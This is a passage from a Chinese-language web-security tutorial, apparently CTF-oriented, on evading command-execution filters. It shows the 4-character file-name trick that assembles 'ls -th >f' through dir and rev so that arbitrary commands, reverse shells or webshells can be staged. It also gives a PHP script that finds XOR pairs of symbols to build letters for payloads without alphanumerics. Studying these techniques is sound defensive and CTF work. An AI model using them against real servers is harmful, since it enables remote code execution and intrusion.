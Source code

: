 *>v (等同于命令：dir "f>" "ht‐" "sl" > v ，先将反向命令的写入中间文件v，文件v中的内容为f> ht- sl （dir写入文件自动加空格，所以不需要在用“\”来转义空格了））
>rev
>*v>a (等同于命令：rev v > a)(a里面的内容为:ls ‐th >f)</code></pre>

后期再传入攻击payload或执行其他命令时，通过sh执行a文件即可生成f文件，得到的f文件里就是我们想要执行的命令或木马。反弹shell和上传Webshell马可参考链接。

### 4个字符

思路与上面的相似。

```
>dir
>f\>
>ht-
>sl

*>v (等同于命令：dir "f>" "ht‐" "sl" > v ，先将反向命令的写入中间文件v，文件v中的内容为f> ht- sl （dir写入文件自动加空格，所以不需要在用“\”来转义空格了））
>rev
>*v>a (等同于命令：rev v > a)(a里面的内容为:ls ‐th >f)
```


## 0x04 无数字字母的命令执行

将非字母、数字的字符经过各种变换，最后能构造出a-z中任意一个字符

**异或**

任何字母与0异或，最后得到的都是它本身。

```php
<?php
$a = '~!@#$%^&*()_+\|/?.,<>`-={}[]';
for($i = 0;$i<strlen($a);$i++){
	for($j = 0;$j<strlen($a);$j++){
		if(ord($a[$i]^$a[$j])>64 && ord($a[$i]^$a[$j])<91){
			echo $a[$i].'xor'.$a[$j].'is ';
			echo chr(ord($a[$i]^$a[$j])).' ';
			echo ord($a[$i]^$a[$j]);
			echo "\n";
		}elseif (ord($a[$i]^$a[$j])>96 && ord($a[$i]^$a[$j])<122){
			echo $a[$i].'xor'.$a[$j].'is ';
			echo chr(ord($a[$i]^$a[$j])).' ';
			echo ord($a[$i]^$a[$j]);
			echo "\n";
			}
	}
}
?>
```


运行结果：


[1]: https://www.freesion.com/images/969/c9db6635dd9abcdf077f27576aef5e59.png
[2]: https://www.freesion.com/images/163/0c566f59f77d40f4bcd7d55bd4976833.png
[3]: https://www.freesion.com/images/385/ee52a107b1a0028e7883d34d156cb511.png
[4]: https://www.freesion.com/images/191/b6c3bb8ddefff62d99609983f27284a7.png